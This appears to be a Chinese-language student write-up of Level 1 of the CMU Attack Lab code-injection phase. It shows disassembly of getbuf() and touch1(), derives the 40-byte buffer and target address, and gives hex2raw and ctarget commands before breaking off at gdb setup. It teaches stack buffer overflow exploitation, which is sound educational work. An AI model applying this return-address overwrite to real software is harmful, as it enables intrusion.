 
## Part I: Code Injection Attacks

### Level 1

目标是在执行getbuf()时通过注入代码以转向touch1(),touch1()的反汇编代码为:

```
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

可见touch1()的入口地址为0x4017c0

00 00 00 00 00 40 17 c0

getbuf()反汇编代码如下,栈指针分配了0x28=40个字节的空间

```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

建立level1答案文件ctarget_l1.txt

```
./hex2raw < ctarget_l1.txt | ./ctarget 
```
会出现报错FAILED: Initialization error: Running on an illegal host [lbc-OMEN-by-HP-Laptop-15-dc0xxx].这里是因为没有使用CMU内网 所以加上-q命令，选择不提交到评分服务器即可


```
./hex2raw < ctarget_l1.txt | ./ctarget -q
```
用以下命令将ctarget_l1.txt 转换为ctarget_l1-raw.txt --保存输入getbuf()的字符串
```
./hex2raw < ctarget_l1.txt > ctarget_l1-raw.txt

```

接下来使用gdb进行调试
```
gdb ctarget  ##进入gdb调试状态
```
